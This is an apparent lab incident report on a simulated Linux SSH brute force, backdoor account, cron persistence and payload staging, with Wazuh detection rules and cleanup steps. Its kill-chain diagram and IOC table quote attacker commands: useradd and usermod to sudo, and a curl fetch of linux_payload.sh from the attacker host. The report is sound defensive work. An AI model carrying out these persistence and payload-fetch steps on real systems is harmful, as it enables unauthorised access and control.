



# 🔍 CASE-002: Linux Intrusion, Privilege Escalation & Persistence Investigation

- **Case Identifier:** `CASE-002-LNX`
- **Severity Classification:** **High / Critical**
- **Monitored Endpoint:** `SOCForge-Linux` (`192.168.56.107`) — Agent `003`
- **Adversary Source:** `192.168.56.101` (`SOCForge-Kali`)
- **Investigating Analyst:** SOC Operations & Detection Engineering Team
- **Incident Status:** Contained & Validated

---

## 1. Executive Summary

On September 14, 2026, the SOCForge Wazuh SIEM detected an external adversary initiating multiple rapid authentication attempts against the Linux production endpoint (`192.168.56.107`) originating from external node `192.168.56.101`. Following credential brute-forcing, the adversary established a valid interactive SSH session as user `socforgelinux`.

Once established, the adversary conducted system and privilege discovery before executing administrative commands via `sudo`. The threat actor successfully provisioned a backdoor local user account (`socforge_backdoor`), elevated the rogue user to the administrative `sudo` group, established scheduled task persistence via `/etc/cron.d/socforge_persistence`, and initiated outbound network connection requests to an external HTTP stager on port `8080`.

Detection engineering efforts elevated generic Level 3 sudo noise into dedicated Level 10 high-fidelity rules (`100200`–`100203`), providing actionable alerting and mitigation.

---

## 2. Threat Actor Kill Chain Mapping

```text
[External Recon: 192.168.56.101]
               │
               ▼ (T1110.001 - Hydra SSH Brute Force)
[SSH PAM Failures: 192.168.56.107]
               │
               ▼ (T1078 - Valid Account Login: socforgelinux)
[Interactive PTY Session: pts/1]
               │
               ▼ (T1082 / T1087 - System & Account Discovery)
[id, uname -a, ss -tulpn]
               │
               ▼ (T1548.003 - Sudo Abuse to Root)
[sudo whoami]
               │
               ▼ (T1136.001 - Rogue Account Creation)
[useradd socforge_backdoor -> Rule 100200]
               │
               ▼ (T1098 - Privileged Group Escalation)
[usermod -aG sudo socforge_backdoor -> Rule 100201]
               │
               ▼ (T1053.003 - Scheduled Cron Persistence)
[tee /etc/cron.d/socforge_persistence -> Rule 100202]
               │
               ▼ (T1105 / T1071.001 - Ingress Tool Staging)
[curl http://192.168.56.101:8080 -> Rule 100203]
```

### Forensic Evidence: Discovery & Privilege Enumeration

*Figure 1: Attacker enumerating system identity (`id`, `uname -a`), user accounts, and checking sudo privileges on the compromised host.*

---

## 3. Indicators of Compromise (IOCs)

| Indicator Type | Value | Context |
|:---|:---|:---|
| **Adversary IP** | `192.168.56.101` | Kali Linux attacker node |
| **Compromised Account** | `socforgelinux` | Target user account used for initial access |
| **Rogue Backdoor User** | `socforge_backdoor` | Unauthorized account added to `sudo` group |
| **Persistence Artifact** | `/etc/cron.d/socforge_persistence` | Root cron job executing unauthorized command |
| **Trigger File** | `/tmp/.socforge_heartbeat` | Touchpoint artifact created by persistence cron |
| **C2 Staging URL** | `http://192.168.56.101:8080/linux_payload.sh` | Remote stager endpoint targeted via curl/wget |

---

## 4. Detection Engineering Analysis

During initial monitoring, all attacker administrative actions (`useradd`, `usermod`, `/etc/cron.d/`) only triggered generic Wazuh Rule `5402` ("Successful sudo to ROOT executed - Level 3"). This represented a significant detection gap.

To resolve this, 4 custom Wazuh rules and 4 matching Sigma rules were developed:
* **Rule `100200` (Level 10):** Detects rogue account creation via `useradd` commands matching backdoor patterns.
* **Rule `100201` (Level 10):** Detects privilege escalation via `usermod -aG sudo` or `gpasswd`.
* **Rule `100202` (Level 10):** Detects unauthorized persistence creation under `/etc/cron*`.
* **Rule `100203` (Level 8):** Detects ingress payload retrieval targeting adversary staging ports.


*Figure 2: Wazuh Manager capturing raw telemetry for `sudo whoami`, `useradd`, `chpasswd`, and `tee /etc/cron.d/` executions.*

---

## 5. Containment & Eradication Guide

### Step 1: Terminate Rogue Sessions
```bash
sudo pkill -u socforge_backdoor
```

### Step 2: Remove Persistence Artifact
```bash
sudo rm -f /etc/cron.d/socforge_persistence /tmp/.socforge_heartbeat
```

### Step 3: Delete Rogue Backdoor Account
```bash
sudo deluser --remove-home socforge_backdoor
```

### Step 4: Verify Clean State
```bash
# Verify no cron persistence remains
ls -la /etc/cron.d/

# Verify account removal from /etc/passwd and sudoers
grep "socforge_backdoor" /etc/passwd /etc/group
```

### Forensic Proof: Eradication Execution

*Figure 3: Forensic verification of active backdoor session termination, cron persistence file deletion, and user account purge.*

